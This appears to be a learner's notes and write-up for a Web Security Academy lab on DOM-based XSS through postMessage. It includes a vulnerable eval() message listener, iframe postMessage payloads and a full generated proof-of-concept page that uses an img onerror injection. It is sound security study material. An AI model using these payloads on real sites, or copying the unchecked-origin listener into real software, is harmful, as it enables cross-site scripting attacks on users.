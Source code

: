 # Controlling the web message source

- If a page handles incoming web messages in an unsafe way, for example, by not verifying the origin of incoming messages correctly in the event listener, properties and functions that are called by the event listener can potentially become sinks. 
- For example, an attacker could host a malicious iframe and use the postMessage() method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page. 
- This behavior means that you can use web messages as the source for propagating malicious data to any of those sinks.

# What is the impact of DOM-based web message vulnerabilities?
- The potential impact of the vulnerability depends on the destination document's handling of the incoming message. 
- If the destination document trusts the sender not to transmit malicious data in the message, and handles the data in an unsafe way by passing it into a sink, then the joint behavior of the two documents may allow an attacker to compromise the user, for example.

# How to construct an attack using web messages as the source
- Consider the following code:
```
<script>
window.addEventListener('message', function(e) {
  eval(e.data);
});
</script>
```
- This is vulnerable because an attacker could inject a JavaScript payload by constructing the following iframe:

```
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
- As the event listener does not verify the origin of the message, and the postMessage() method specifies the targetOrigin "*", the event listener accepts the payload and passes it into a sink, in this case, the eval() function.


```
<iframe src="//0ab7003f03eb687b80c1039c0073001e.web-security-academy.net" onload="this.contentWindow.postMessage('print()','*')">
```

# Lab: DOM XSS using web messages
- This lab demonstrates a simple web message vulnerability. 
- To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- This lab was suppose to be easy for me, but I coud not solve it
- So I made used of DOM invader and I noticed that the contecxt was div
- So in the DOM invader, I inserted this ```img src='x' onerror='(print())'
- So Dom invader gave me the following payload  
```
        <!doctype html>
        <html>
            <head>
                <!-- DOM XSS PoC - generated by DOM Invader part of Burp Suite -->
                <meta charset="UTF-8" />
                <title>Postmessage PoC</title>
                <script>
                    function pocLink() {
                        let win = window.open('https://0a84003b034f453c82827efb00d70013.web-security-academy.net/');
                        let msg = "u1kjte2o0-\\\u003c\u003e'\":\u003cimg src='x' onerror='print()'\u003e";
                        
                        setTimeout(function(){
                            win.postMessage(msg, '*');
                        }, 5000);
                    }
                    function pocFrame(win) {           
                        let msg = "u1kjte2o0-\\\u003c\u003e'\":\u003cimg src='x' onerror='print()'\u003e";
                        
                        win.postMessage(msg, '*');          
                    }
                </script>
            </head>
            <body>
                <a href="#" onclick="pocLink();">PoC link</a>          
                <iframe src="https://0a84003b034f453c82827efb00d70013.web-security-academy.net/" onload="pocFrame(this.contentWindow)"></iframe>                    
            </body>
        </html>
```
- The lab was solved on delevering to victim